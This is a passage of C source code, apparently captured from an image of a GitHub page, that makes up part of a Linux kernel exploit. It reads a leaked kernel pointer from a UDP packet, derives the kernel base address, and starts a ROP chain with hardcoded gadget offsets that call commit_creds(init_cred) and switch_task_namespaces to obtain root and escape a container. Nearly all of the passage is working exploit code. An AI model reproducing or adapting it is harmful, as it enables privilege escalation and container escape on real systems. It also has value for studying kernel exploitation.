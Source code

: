 ```c
    n = recvfrom(sockfd, buffer, 1024, 0, (struct sockaddr *)&cliaddr, &len);
    printf("  [-] recv udp packet length : %d\n", n);

    if (n <= 0)
    {
        perror("recvfrom");
        exit(EXIT_FAILURE);
    }
    buffer[n] = '\0';

    printf("  [-] recv data : ");
    for (int i = 0; i < n; i++)
    {
        printf("%02x ", (unsigned char)buffer[i]);
    }
    printf("\n");

    if (n >= sizeof(unsigned long))
    {
        unsigned long leak = *(unsigned long *)buffer;
        kernel_base = leak - 0xaa3f46;
        printf("  [-] leak data : 0x%lx\n", leak);
        printf("  [-] kernel base address : %p\n", kernel_base);
    }

    close(sockfd);
}

void do_rop()
{
    unsigned long buf[128];

    unsigned long native_irq_disable = kernel_base + 0x8f5b0;
    unsigned long __do_softirq_escape = kernel_base + 0x100017e;

    unsigned long pop_rdi_ret = kernel_base + 0x65ca3c;
    unsigned long pop_rsi_ret = kernel_base + 0x11c051;
    unsigned long mov_rdi_rax_ret = kernel_base + 0x625d74;
    unsigned long cmp_dh_ret = kernel_base + 0x279772;

    unsigned long init_ns_proxy = kernel_base + 0x1e8a060;
    unsigned long bpf_get_current_task = kernel_base + 0x217de0;
    unsigned long switch_task_namespaces = kernel_base + 0xe5c80;

    unsigned long init_cred = kernel_base + 0x1e8a2a0;
    unsigned long commit_creds = kernel_base + 0xe74a0;

    unsigned long add_rsp_0x88_p_p_p_r = kernel_base + 0x3266aa;

    printf("[+] do ROP\n");
    printf("  [-] native_irq_disable : %p\n", native_irq_disable);
    printf("  [-] __do_softirq_escape : %p\n", __do_softirq_escape);
    printf("  [-] pop_rdi_ret : %p\n", pop_rdi_ret);
    printf("  [-] pop_rsi_ret : %p\n", pop_rsi_ret);
    printf("  [-] mov_rdi_rax_ret : %p\n", mov_rdi_rax_ret);
    printf("  [-] cmp_dh_ret : %p\n", cmp_dh_ret);
    printf("  [-] init_ns_proxy : %p\n", init_ns_proxy);
    printf("  [-] bpf_get_current_task : %p\n", bpf_get_current_task);
    printf("  [-] switch_task_namespaces : %p\n", switch_task_namespaces);
    printf("  [-] init_cred : %p\n", init_cred);
    printf("  [-] commit_creds : %p\n", commit_creds);
    printf("  [-] add_rsp_0x88_p_p_p_r : %p\n", add_rsp_0x88_p_p_p_r);

```